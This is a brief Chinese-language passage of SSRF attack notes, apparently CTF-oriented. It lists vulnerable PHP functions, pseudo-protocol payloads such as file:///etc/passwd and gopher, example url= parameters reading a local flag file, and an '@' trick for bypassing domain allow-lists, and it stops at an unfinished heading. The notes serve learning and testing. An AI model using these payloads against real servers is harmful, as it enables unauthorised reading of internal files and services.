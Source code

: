 



漏洞产生函数：

```
file_get_contents()、fsockopen()、curl_exec()、fopen()、readfile()
```



## 漏洞验证方法



## SSRF 伪协议利用

```
http://	Web常见访问
file://	from文件系统get文件内容，如file:///etc/passwd
dict://	字典服务器协议，访问字典资源，如dict:///ip:6739/info:
sftp://	SSH文件传输协议或安全文件传输协议
ldap://	轻量级目录访问协议
tftp://	简单文件传输协议
gopher://	分布式文档传递服务，可以使用gopherus生成payload
```



例如：

```
url=http://127.0.0.1/flag.php
```

```
url=file:///var/www/html/flag.php
```









## SSRF绕过



### 1.域名限制

限制为`http://www.xxx.com`固定域名

采用http基本身份认证方式绕过

```
http://www.xxx.com@www.xxyy.com
```



### 2.请求IP限制
